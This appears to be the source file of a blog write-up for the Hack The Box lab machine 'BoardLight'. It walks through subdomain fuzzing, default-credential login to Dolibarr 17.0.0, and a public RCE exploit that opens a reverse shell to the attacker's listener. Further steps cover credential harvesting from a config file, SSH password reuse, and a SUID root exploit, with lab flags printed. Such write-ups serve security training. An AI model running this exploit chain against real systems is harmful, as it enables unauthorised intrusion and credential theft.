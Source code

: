 ```yaml
---
layout: post
title: "HTB Linux Easy: BoardLight"
description: "BoardLight is an Easy rated Linux machine on HTB."
categories: [CTF,HTB]
tags: [Linux,Easy]
author: g
---
```


## Nmap Scan
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -p 80 10.10.11.11
Starting Nmap 7.94SVN ( <https://nmap.org> ) at 2024-06-10 12:23 EDT
Nmap scan report for board.htb (10.10.11.11)
Host is up (0.035s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 9.33 seconds
```


## Enumerate HTTP (Port 80)

While enumerating for subdomains we come across: `crm.board.htb`.
```bash
┌──(kali㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/dirb/big.txt -H "Host: FUZZ.board.htb" -u <http://board.htb> -fs 15949

        /'___\\  /'___\\           /'___\\       
       /\\ \\__/ /\\ \\__/  __  __  /\\ \\__/       
       \\ \\ ,__\\\\ \\ ,__\\/\\ \\/\\ \\ \\ \\ ,__\\      
        \\ \\ \\_/ \\ \\ \\_/\\ \\ \\_\\ \\ \\ \\ \\_/      
         \\ \\_\\   \\ \\_\\  \\ \\____/  \\ \\_\\       
          \\/_/    \\/_/   \\/___/    \\/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : <http://board.htb>
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Header           : Host: FUZZ.board.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 15949
________________________________________________

crm                     [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 283ms]
:: Progress: [20469/20469] :: Job [1/1] :: 200 req/sec :: Duration: [0:01:57] :: Errors: 0 ::
```

Add the entry to the hosts file.
```bash
┌──(kali㉿kali)-[~]
└─$ tail -n 1 /etc/hosts
10.10.11.11 board.htb crm.board.htb
```

Found the exact software and version running on the server: `Dolibarr 17.0.0`.
![Pasted image 20240715112244.png](/images/Pasted image 20240715112244.png){: .normal width="400"}

We are able to authenticate using `admin:admin`.
![Pasted image 20240715112240.png](/images/Pasted image 20240715112240.png){: .normal }

Found authenticated RCE PoC script for Dolibarr 17.0.0: [Link](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253).
```bash
┌──(kali㉿kali)-[~]
└─$ python3 exploit.py <http://crm.board.htb> admin admin 10.10.14.205 9001
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection
```

Gained shell connection.
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.205] from (UNKNOWN) [10.10.11.11] 43200
bash: cannot set terminal process group (856): Inappropriate ioctl for device
bash: no job control in this shell
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Lateral movement
Found database credentials.
```bash
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat conf.php
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
```

Connect to DB using creds.
```bash
www-data@boardlight:~$ mysql -u dolibarrowner -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \\g.
Your MySQL connection id is 94
Server version: 8.0.36-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2024, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\\h' for help. Type '\\c' to clear the current input statement.

mysql> 
```

Hashes in the database proved to not be crackable, instead the DB password was used to SSH as the larissa user.
```bash
┌──(kali㉿kali)-[~]
└─$ ssh larissa@board.htb
larissa@board.htb's password: 
Last login: Mon Jun 10 10:07:56 2024 from 10.10.14.205
larissa@boardlight:~$ id
uid=1000(larissa) gid=1000(larissa) groups=1000(larissa),4(adm)
```

User.txt: `3213b313bea243091459487b95520c12`
```bash
larissa@boardlight:~$ cat user.txt 
3213b313bea243091459487b95520c12
```


## Privilege Escalation
Find unknown SUID binaries using Linpeas.
```bash
-rwsr-xr-x 1 root root 27K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset (Unknown SUID binary!)
```

Found PrivEsc PoC on GitHub for the elightenment binary: [Link](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/blob/main/exploit.sh).
```bash
larissa@boardlight:/tmp$ ./priv.sh
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),1000(larissa)
```

Root.txt: `6abfae9e69e4d5d182e3b5c6f95b7f17`
```bash
# cat /root/root.txt
6abfae9e69e4d5d182e3b5c6f95b7f17
```

## PWNED!!!
![Pasted image 20240715112218.png](/images/Pasted image 20240715112218.png){: .normal }